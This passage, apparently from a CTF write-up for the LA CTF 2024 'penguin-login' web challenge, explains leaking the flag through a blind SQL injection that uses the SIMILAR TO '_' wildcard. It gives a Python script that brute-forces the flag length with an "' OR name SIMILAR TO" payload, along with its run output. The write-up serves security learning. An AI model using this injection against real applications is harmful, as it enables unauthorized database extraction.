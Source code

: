 Since `%` is not in the `allowed_chars`, **we'll have to use `_` wildcard character**.

Now, with the knowledge of wildcard characters, we can try to leak the flag.

- Determine the flag's string length:

To find out the flag's string length, we can use `_` multiple wildcard characters. If the string length doesn't match with our wildcard characters length, it'll return `False`, otherwise returns `True`.

**To do so, we can write a Python script to automate that:**
```python
#!/usr/bin/env python3
import requests

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.SUBMIT_ROUTE = '/submit'
        self.WILDCARD_CHARACTER = '_'
        self.EXCLUDED_NAMES = ('peng', 'emperor')
        self.EXCLUDED_NAMES_LENGTH = (len(self.EXCLUDED_NAMES[0]), len(self.EXCLUDED_NAMES[1]))

    def leakFlagStringLength(self):
        for length in range(1, 100):
            print(f'[*] Finding flag string length. Current length: {length}', end='\r')

            payload = f"' OR name SIMILAR TO '{self.WILDCARD_CHARACTER * length}"
            data = {
                'username': payload
            }
            
            response = requests.post(f'{self.baseUrl}{self.SUBMIT_ROUTE}', data=data)
            isFailed = True if response.status_code == 201 else False
            if isFailed:
                continue
            if length == self.EXCLUDED_NAMES_LENGTH[0] or length == self.EXCLUDED_NAMES_LENGTH[1]:
                print(f'[*] Length {length} returned boolean value True, but the length is same as the database\'s penguin name')
                continue

            return length

if __name__ == '__main__':
    baseUrl = 'https://penguin.chall.lac.tf'
    exploit = Exploit(baseUrl)

    flagStringLength = exploit.leakFlagStringLength()
    print(f'[+] We found the correct flag string length: {flagStringLength}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/penguin-login)-[2024.02.19|16:43:37(HKT)]
└> python3 exploit.py
[*] Length 4 returned boolean value True, but the length is same as the database's penguin name
[*] Length 7 returned boolean value True, but the length is same as the database's penguin name
[+] We found the correct flag string length: 45
```
